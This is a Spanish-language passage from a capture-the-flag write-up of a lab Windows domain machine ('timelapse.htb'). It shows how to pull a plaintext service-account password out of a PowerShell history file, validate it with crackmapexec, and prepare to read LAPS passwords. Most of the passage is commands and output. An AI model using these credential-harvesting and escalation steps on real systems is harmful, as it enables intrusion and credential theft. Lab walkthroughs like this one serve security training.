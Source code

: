 Luego de revisar todos los usuarios, uno en particular pertenece a un grupo especial:

```
*Evil-WinRM* PS C:\Users\legacyy> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 11:25:53 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.
```

Pertenece al grupo **LAPS_Readers**, por lo tanto, necesitamos convertirnos en ese usuario.

Buscando vias potenciales, antes de utilizar herramientas como winPEAS y BloodHound, veremos si existe información en el historial de **powershell**:
```
*Evil-WinRM* PS C:\Users\legacyy>  type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
whoami
ipconfig /all
netstat -ano |select-string LIST
$so = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck
$p = ConvertTo-SecureString 'E3R$Q62^12p7PLlC%KWaxuaV' -AsPlainText -Force
$c = New-Object System.Management.Automation.PSCredential ('svc_deploy', $p)
invoke-command -computername localhost -credential $c -port 5986 -usessl -
SessionOption $so -scriptblock {whoami}
get-aduser -filter * -properties *
exit
```
Si existe información, podemos observar una clave y nombre de usuario, **svc_deploy**. Haciendo uso de `crackmapexec` verificamos si las credenciales son correctas:

```
crackmapexec smb 10.10.11.152 -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
SMB         10.10.11.152    445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.152    445    DC01             [+] timelapse.htb\svc_deploy:E3R$Q62^12p7PLlC%KWaxuaV 
```
La contraseña es correcta, por lo tanto, utilizaremos el propio `crackmapexec` para leer las contraseñas de LAPS, debido a que el usuario pertenece al grupo **LAPS_Readers**:
